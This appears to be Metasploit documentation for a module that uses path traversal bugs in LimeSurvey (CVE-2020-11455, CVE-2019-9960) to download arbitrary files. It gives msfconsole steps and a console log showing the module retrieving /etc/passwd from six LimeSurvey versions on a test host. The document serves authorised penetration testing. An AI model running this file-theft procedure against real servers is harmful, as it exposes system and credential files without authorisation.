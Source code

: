 ## Vulnerable Application

This module exploits an authenticated path traversal vulnerability found in LimeSurvey versions between 4.0 and 4.1.11 with
CVE-2020-11455 or <= 3.15.9 with CVE-2019-9960, inclusive.

In CVE-2020-11455 the `getZipFile` function within the `filemanager` functionality allows for arbitrary file download. The file retrieved
may be deleted after viewing.

In CVE-2019-9960 the `szip` function within the `downloadZip` functionality allows for arbitrary file download.

This module has been verified against the following versions:

  * 4.1.11-200316
  * 3.15.0-181008
  * 3.9.0-180604
  * 3.6.0-180328
  * 3.0.0-171222
  * 2.70.0-170921

### Install

This application is straight forward to install.  An excellent writeup is available on
[howtoforge.com](https://www.howtoforge.com/tutorial/how-to-install-limesurvey-on-ubuntu-1804/)

Versions can be downloaded from [github](https://github.com/LimeSurvey/LimeSurvey/releases).

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/http/limesurvey_zip_traversals```
  4. Do: ```set file [file]```
  5. Do: ```set rhosts [ip]```
  6. Do: ```run```
  7. If the file is readable, you should retrieve a file from the application

## Options

### FILE

The file to attempt to retrieve

## Scenarios

### LimeSurvey 4.1.11, 3.15.0, 3.9.0, 3.6.0, 3.0.0, and 2.70.0 on Ubuntu 18.04

```
[*] Processing lime41.rb for ERB directives.
resource (lime41.rb)> use auxiliary/scanner/http/limesurvey_zip_traversals
resource (lime41.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (lime41.rb)> set verbose true
verbose => true
resource (lime41.rb)> set targeturi /LimeSurvey-4.1.11-200316/
targeturi => /LimeSurvey-4.1.11-200316/
resource (lime41.rb)> run
[*] CSRF: YII_CSRF_TOKEN => SzF-eUl4RW1lU0h-aFZxWmNwbGZOREJrYUduZzI1WTaGH7eqrOmgcse5liKfPNZ8qqKkvenm5Fu6oxTSyVWDrQ==
[+] Login Successful
[*] Version Detected: 4.1.11
[*] Attempting to retrieve file
[+] File stored to: /home/h00die/.msf4/loot/20200408141207_default_2.2.2.2__164991.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (lime41.rb)> set targeturi /LimeSurvey-3.15.0-181008/
targeturi => /LimeSurvey-3.15.0-181008/
resource (lime41.rb)> run
[*] CSRF: YII_CSRF_TOKEN => SDNyc21VYXJONmIwbjFkOENmUzEyS1NMX3lPQ0VYRTJyfE0iGABAxOsuZhxGdZd59W3dNCVx2D6JABRxmu6dgw==
[+] Login Successful
[*] Version Detected: 3.15.0
[*] Attempting to retrieve file
[+] File stored to: /home/h00die/.msf4/loot/20200408141207_default_2.2.2.2__530709.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (lime41.rb)> set targeturi /LimeSurvey-3.9.0-180604/
targeturi => /LimeSurvey-3.9.0-180604/
resource (lime41.rb)> run
[*] CSRF: YII_CSRF_TOKEN => QldPa0lZM0o0cUV-STU4NWVoYVlDdHNtYmhmVVl6NW39a1wvfep0Ccsuz_gx9V1AnMjtADnprALM7qwvxUz3Wg==
[+] Login Successful
[*] Version Detected: 3.9.0
[*] Attempting to retrieve file
[+] File stored to: /home/h00die/.msf4/loot/20200408141208_default_2.2.2.2__407491.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (lime41.rb)> set targeturi /LimeSurvey-3.6.0-180328/
targeturi => /LimeSurvey-3.6.0-180328/
resource (lime41.rb)> run
[*] CSRF: YII_CSRF_TOKEN => SHJzSk81ak5rdWdONTJWV0VLQTlHcjRKeGNIaFlYREqfcU-BuMlPRimIHJipKDsrCF3i7j29J4bNFwxsYGD42A==
[+] Login Successful
[*] Version Detected: 3.6.0
[*] Attempting to retrieve file
[+] File stored to: /home/h00die/.msf4/loot/20200408141208_default_2.2.2.2__228237.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (lime41.rb)> set targeturi /LimeSurvey-3.0.0-171222/
targeturi => /LimeSurvey-3.0.0-171222/
resource (lime41.rb)> run
[*] CSRF: YII_CSRF_TOKEN => T1VkbDlhYU9IbkZHel9wd0JoVVl5RTUxQ2h2Mk9yN0-AXAtaTDCOMX8gWru7EmBHPBumgY0FG0vAFLwCwyeeuA==
[+] Login Successful
[*] Version Detected: 3.0.0
[*] Attempting to retrieve file
[+] File stored to: /home/h00die/.msf4/loot/20200408141209_default_2.2.2.2__611969.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (lime41.rb)> set targeturi /LimeSurvey-2.70.0-170921/
targeturi => /LimeSurvey-2.70.0-170921/
resource (lime41.rb)> run
[*] CSRF: YII_CSRF_TOKEN => elhvTzJaWGlJWU10WnBFajlTYmN5a1VHY1M0bDNJd1C2okYXL__0in7KMlmwY6_Iuk8sI7H7s2zQPZ5NiWW_Xg==
[+] Login Successful
[*] Version Detected: 2.70.0
[*] Attempting to retrieve file
[+] File stored to: /home/h00die/.msf4/loot/20200408141209_default_2.2.2.2__149900.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (lime41.rb)> md5sum ~/.msf4/loot/*
[*] exec: md5sum ~/.msf4/loot/*

3cf5f3492b7c77a77f74124bb4ccb528  /home/h00die/.msf4/loot/20200408141207_default_2.2.2.2__164991.txt
3cf5f3492b7c77a77f74124bb4ccb528  /home/h00die/.msf4/loot/20200408141207_default_2.2.2.2__530709.txt
3cf5f3492b7c77a77f74124bb4ccb528  /home/h00die/.msf4/loot/20200408141208_default_2.2.2.2__228237.txt
3cf5f3492b7c77a77f74124bb4ccb528  /home/h00die/.msf4/loot/20200408141208_default_2.2.2.2__407491.txt
3cf5f3492b7c77a77f74124bb4ccb528  /home/h00die/.msf4/loot/20200408141209_default_2.2.2.2__149900.txt
3cf5f3492b7c77a77f74124bb4ccb528  /home/h00die/.msf4/loot/20200408141209_default_2.2.2.2__611969.txt
msf5 auxiliary(scanner/http/limesurvey_zip_traversals) > cat /home/h00die/.msf4/loot/20200408141207_default_2.2.2.2__164991.txt
[*] exec: cat /home/h00die/.msf4/loot/20200408141207_default_2.2.2.2__164991.txt

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
...snip...
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
```
